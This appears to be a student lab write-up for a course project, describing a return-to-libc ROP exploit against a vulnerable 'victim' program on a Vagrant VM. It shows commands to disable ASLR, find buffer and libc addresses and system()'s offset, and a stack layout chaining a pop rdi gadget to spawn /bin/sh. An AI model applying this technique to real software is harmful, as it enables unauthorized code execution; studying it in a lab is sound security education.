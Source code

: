 In one terminal, we check the beginning of the buffer:
```
vagrant@precise64:~/480-project2$ setarch `arch` -R ./victim
0x7fffffffe5c0
What's your name?
```

While this is running, we check the process of where libc is loaded;
```
vagrant@precise64:~/480-project2$ pid=`ps -C victim -o pid --no-headers | tr -d ' '`
vagrant@precise64:~/480-project2$ grep libc /proc/$pid/maps
7ffff7a1d000-7ffff7bd0000 r-xp 00000000 fc:00 2752530                    /lib/x86_64-linux-gnu/libc-2.15.so
7ffff7bd0000-7ffff7dcf000 ---p 001b3000 fc:00 2752530                    /lib/x86_64-linux-gnu/libc-2.15.so
7ffff7dcf000-7ffff7dd3000 r--p 001b2000 fc:00 2752530                    /lib/x86_64-linux-gnu/libc-2.15.so
7ffff7dd3000-7ffff7dd5000 rw-p 001b6000 fc:00 2752530                    /lib/x86_64-linux-gnu/libc-2.15.so
```

And the offset for libc is:
```
vagrant@precise64:~/480-project2$ nm -D /lib/x86_64-linux-gnu/libc.so.6 | grep '\<system\>'
0000000000044320 W system
```

Finally, we modify the hexdump to perform the attack, which occurs when the instruction pointer is at the main() return. Beginning at the main() return location, we will have 0x7ffff7a1d000+0x22a12 (location of gadget), followed by 0x7fffffffe5c0(address of "/bin/sh" or name buffer), and 0x7ffff7a1d000+0x44320 (location of system()).


### Call stack Layout
#### Bottom (Higher address)
    addr of system()
----------------------
    addr of "/bin/sh"
----------------------
    ret -> addr of gadget (pop rdi; ret)
----------------------
     EBP Register
----------------------
     64 bytes buf
#### Top (Lower address)

Note that the first 130 zeroes equate to 65 bytes which is just enough to fill the rest of the name buffer after "/bin/sh" and the RBP register. Then the return address is hijacked to point to the gadget of pop RDI and RET. Instruction pointer will jump to (0x7ffff7a1d000+0x22a12) and RSP is incremented to the location after the return address location with value 0x7fffffffe5c0.

When the instruction pointer reaches pop RDI in the gadget, RDI will store the value at the RSP, which will be the address of "/bin/sh" (0x7fffffffe5c0). We need to increment RSP so that it contains the value of (0x7ffff7a1d000+0x44320).
